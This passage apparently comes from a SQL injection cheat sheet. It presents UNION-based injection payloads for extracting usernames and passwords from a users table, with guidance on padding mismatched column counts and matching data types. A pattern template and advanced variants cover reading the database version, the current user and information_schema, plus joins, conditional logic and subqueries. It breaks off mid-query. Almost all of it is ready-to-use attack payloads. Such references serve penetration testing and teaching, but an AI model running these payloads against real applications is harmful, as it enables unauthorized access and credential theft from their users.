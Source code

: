 ```sql
' UNION SELECT null, username, password, null FROM users LIMIT 0,1-- //
' UNION SELECT null, username, password, null FROM users LIMIT 1,1-- //
```

---

### Handling Different Column Scenarios

#### Uneven Column Counts
```sql
-- Original query has 4 columns, target table has 2
-- Fill extra columns with NULL or junk data

-- Using NULL (recommended - fits all data types)
' UNION SELECT username, password, NULL, NULL FROM users-- //

-- Using numbers (good for tracking column positions)
' UNION SELECT username, password, 3, 4 FROM users-- //

-- Using strings (must match data type)
' UNION SELECT username, password, 'junk1', 'junk2' FROM users-- //
```

#### Data Type Compatibility
```sql
-- If columns expect specific data types:

-- Integer column
' UNION SELECT 1, username, password, 4 FROM users-- //

-- String column  
' UNION SELECT 'admin', username, password, 'data' FROM users-- //

-- Mixed types
' UNION SELECT id, username, password, created_date FROM users-- //
```

---

### UNION Injection Attack Patterns

#### Basic Pattern Structure
```
[CLOSE_QUOTE] UNION SELECT [COL1],[COL2],[COL3],[COL4] FROM [TABLE]-- [COMMENT]

Examples:
' UNION SELECT null,username,password,null FROM users-- //
' UNION SELECT 1,@@version,database(),user()-- //
%' UNION SELECT null,table_name,null,null FROM information_schema.tables-- //
```

#### Advanced Pattern Variations
```sql
-- Multiple table joins
' UNION SELECT u.username, u.password, p.profile_data, null 
  FROM users u JOIN profiles p ON u.id=p.user_id-- //

-- Conditional extraction
' UNION SELECT null, 
  CASE WHEN LENGTH(password)>10 THEN username ELSE 'short' END,
  password, null FROM users-- //

-- Subquery extraction
' UNION SELECT null, 
  (SELECT COUNT(*) FROM users), 
```